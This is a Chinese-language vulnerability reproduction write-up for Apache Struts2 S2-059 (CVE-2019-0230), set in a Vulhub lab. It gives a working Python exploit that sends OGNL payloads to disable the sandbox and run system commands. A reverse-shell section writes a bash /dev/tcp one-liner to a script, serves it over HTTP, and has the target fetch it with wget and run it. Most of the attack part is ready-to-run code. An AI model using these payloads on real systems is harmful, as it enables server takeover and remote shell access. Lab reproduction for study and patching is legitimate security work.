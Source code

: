 # Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230

## 漏洞描述

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 影响版本

影响版本: Struts 2.0.0 - Struts 2.5.20

## 环境搭建

Vulhub执行以下命令启动Struts 2.5.16 s2-059测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：

![image-20220302135315508](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021353597.png)

《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://192.168.174.128:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/awesome_poc`已成功执行。

![image-20220302135633547](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021356602.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：

![image-20220302135809119](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021358216.png)
